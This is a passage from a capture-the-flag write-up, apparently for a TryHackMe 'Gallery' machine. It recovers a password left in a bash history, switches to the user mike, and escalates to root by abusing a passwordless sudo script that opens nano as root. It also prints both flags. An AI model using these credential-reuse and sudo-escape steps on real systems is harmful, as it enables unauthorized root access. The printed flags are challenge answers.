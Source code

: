 ```console
cat index.html
sudo -lb3stpassw0rdbr0xx
clear
sudo -l
exit
```

Changed user to mike and got user flag
```console
www-data@gallery:/var/backups/mike_home_backup$ su mike
Password:
mike@gallery:/var/backups/mike_home_backup$ cd
mike@gallery:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```
### Privilege escalation 
On sudo -l found that mike can run a script without password. 
```console
mike@gallery:~$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```
On reading file found that on giving option as read to the file while execution it opens a file with nano, which we can further exploit.<br />
```console
mike@gallery:~$ cat /opt/rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac

mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read
```
Found the root flag
```console
# cat /root/root.txt
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}

```

